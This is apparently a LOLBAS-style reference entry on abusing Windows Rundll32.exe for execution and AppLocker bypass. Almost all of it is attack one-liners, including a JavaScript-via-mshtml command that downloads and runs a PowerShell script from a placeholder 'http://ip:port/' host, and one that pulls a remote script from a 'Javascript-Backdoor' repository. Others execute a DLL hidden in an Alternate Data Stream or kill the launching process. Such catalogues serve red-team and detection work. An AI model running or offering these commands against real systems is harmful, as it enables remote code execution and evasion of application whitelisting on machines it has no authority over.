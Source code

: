 ## Rundll32.exe
* Functions: Execute, Read ADS
```

rundll32.exe AllTheThingsx64,EntryPoint
Example command. AllTheThingsx64 would be a .DLL file and EntryPoint would be the name of the entry point in the .DLL file to execute.

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"
Use Rundll32.exe to execute a JavaScript script that runs a PowerShell script that is downloaded from a remote web site.

rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
Use Rundll32.exe to execute a JavaScript script that runs calc.exe.

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
Use Rundll32.exe to execute a JavaScript script that runs calc.exe and then kills the Rundll32.exe process that was started.

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")
Use Rundll32.exe to execute a JavaScript script that calls a remote JavaScript script.

rundll32 "C:\ads\file.txt:ADSDLL.dll",DllMain
Use Rundll32.exe to execute a .DLL file stored in an Alternate Data Stream (ADS).
```
   
* Resources:   
  * https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
  * https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_7
  * https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Rundll32.md
  * https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  * https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
   
* Full path:   
  * C:\Windows\System32\rundll32.exe
  * C:\Windows\SysWOW64\rundll32.exe
   
* Notes: Thanks to Casey Smith - @subtee  
   
